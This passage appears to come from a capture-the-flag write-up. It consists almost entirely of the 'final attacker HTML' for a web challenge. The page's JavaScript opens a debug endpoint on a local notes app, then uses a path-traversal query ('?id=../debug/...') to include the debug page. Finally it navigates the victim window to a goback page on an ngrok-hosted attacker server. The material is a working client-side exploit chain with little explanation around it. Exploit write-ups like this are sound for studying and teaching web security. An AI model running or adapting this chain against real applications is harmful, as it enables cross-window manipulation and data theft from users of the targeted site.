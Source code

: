 
Final attacker HTML used:
```javascript!
<!-- test.html -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Attacker Page</title>
</head>
<body>
  <script>
    // Define a sleep function that returns a promise that resolves after a specified delay
    const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

    const exploit = async () => {
      const note_id = "65b94781-ee96-465d-9ca4-757d234c23d0";
      const baseUrl = 'http://127.0.0.1';
	  const debug_path = "52abd8b5-3add-4866-92fc-75d2b1ec1938"
	  const attacker_url = "https://825f-2601-197-380-43a0-99e5-8a79-29c7-8ddf.ngrok-free.app"
	//  const attacker_url =  'http://127.0.0.1:1337'
	//  const debug_path = "sd"
      const debug_url = `${baseUrl}/debug/${debug_path}/${note_id}`;
      const local_inclusion = `${baseUrl}/note/${note_id}?id=../debug/${debug_path}/${note_id}`;
      const goBackUrl = `${attacker_url}/goback.html`;

      try {
        console.log('Opening debug_url:', debug_url);
        const newWindow = window.open(debug_url, '_blank');
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating to local_inclusion:', local_inclusion);
        newWindow.location.href = local_inclusion;
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating back to debug_url using go-back.html');
        newWindow.location.href = goBackUrl;
        await sleep(2000); // Delay for 2 seconds
      } catch (error) {
        console.error('Error in exploit:', error);
      }
    };

    exploit();
  </script>
</body>
</html>
```
